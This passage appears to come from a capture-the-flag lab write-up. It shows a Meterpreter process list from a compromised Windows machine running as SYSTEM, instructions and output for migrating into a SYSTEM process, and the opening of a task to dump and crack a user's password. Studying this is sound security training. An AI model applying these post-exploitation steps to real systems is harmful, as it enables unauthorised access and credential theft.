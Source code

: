 ```
 1320  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1408  692   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1464  692   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1572  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1580  1684  cmd.exe               x86   0        NT AUTHORITY\SYSTEM           C:\Windows\SysWOW64\cmd.exe
 1604  692   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1684  2920  powershell.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe
 1904  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 2432  544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 2476  1272  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
 2532  544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 2576  544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 2596  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 2624  692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 2768  692   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 2920  2344  powershell.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

`No answer needed`

8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.

```
meterpreter > migrate 1272
[*] Migrating from 1684 to 1272...
[*] Migration completed successfully.
```

`migrate 1272`

## [Task 4] Cracking

Dump the non-default user's password and crack it!
